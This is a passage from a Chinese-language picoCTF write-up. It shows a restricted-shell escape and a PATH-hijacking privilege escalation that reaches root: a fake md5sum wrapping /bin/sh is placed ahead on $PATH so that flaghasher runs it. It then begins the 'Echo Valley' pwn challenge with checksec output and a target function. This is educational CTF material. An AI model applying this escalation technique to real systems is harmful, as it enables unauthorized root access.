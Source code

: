 不過可以直接輸入 `bash` 換成 bash 繞過限制
```bash
ctf-player@pico-chall$ bash
ctf-player@challenge:~$ /
bash: /: Is a directory
```

之後和上一題的解法一樣，自己建立一個用於提權的 `md5sum` 加上執行權限後加入 `$PATH`
```bash
ctf-player@pico-chall$ echo "/bin/sh" > md5sum
ctf-player@pico-chall$ chmod +x md5sum 
ctf-player@pico-chall$ export PATH="/home/ctf-player:$PATH"
```

執行 `flaghasher` 後成功提權
```bash
ctf-player@challenge:~$ flaghasher
Computing the MD5 hash of /root/flag.txt....

# whoami
root
```

## Echo Valley
保護機制
```bash
$ checksec valley
[*] '/home/kali/CTF/pwn/Echo_Valley/valley'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
```

目標函數
```c
void print_flag() {
   char buf[32];
   FILE *file = fopen("/home/valley/flag.txt", "r");

   if (file == NULL) {
      perror("Failed to open flag file");
      exit(EXIT_FAILURE);
   }

   fgets(buf, sizeof(buf), file);
   printf("Congrats! Here is your flag: %s", buf);
   fclose(file);
   exit(EXIT_SUCCESS);
}
```
